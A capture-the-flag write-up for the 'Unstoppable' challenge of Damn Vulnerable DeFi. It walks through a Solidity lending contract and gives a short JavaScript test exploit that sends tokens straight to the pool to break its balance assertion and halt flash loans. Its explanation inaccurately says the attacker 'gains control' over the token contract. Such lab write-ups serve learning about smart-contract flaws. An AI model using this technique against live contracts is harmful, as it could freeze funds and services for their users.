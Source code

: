 # Challange #1 - Unstoppable

### There’s a tokenized vault with a million DVT tokens deposited. It’s offering <b>flash loans</b> for free, until the grace period ends.

### To pass the challenge, make the vault stop offering <b>flash loans</b>.

<b>_Flash Loans_</b> is located in the <b>UnstoppableLender.sol</b> file.

Challange is to disable the <b>flash loans</b> in the <b>UnstoppableLender.sol</b> file.

this function takes a uint256 borrowAmount as a parameter.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {}
```

now we need to inspect variable poolBalance:

1. ```solidity
   uint256 public poolBalance;
   ```
2. ```solidity
   function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }
   ```
3. ```solidity
   assert(poolBalance == balanceBefore);
   ```

## Best place to exploit

```solidity
assert(poolBalance == balanceBefore);
```

## Exploit

```javascript
it("Exploit", async function () {
	const TokenContractExploit = this.token.connect(attacker);
	await TokenContractExploit.transfer(
		this.pool.address,
		INITIAL_ATTACKER_TOKEN_BALANCE
	);
});
```

## Explanation

```javascript
const TokenContractExploit = this.token.connect(attacker);
```

    This line creates a new instance of the token contract (DamnValuableToken) connected to the attacker account.
    It allows the attacker account to interact with the token contract, effectively gaining control over it.

```javascript
await TokenContractExploit.transfer(
	this.pool.address,
	INITIAL_ATTACKER_TOKEN_BALANCE
);
```

    This line initiates a transfer of tokens from the attacker's controlled instance of the token contract to the lending contract (UnstoppableLender).
    The transferred amount is INITIAL_ATTACKER_TOKEN_BALANCE, which is set to 100 tokens.
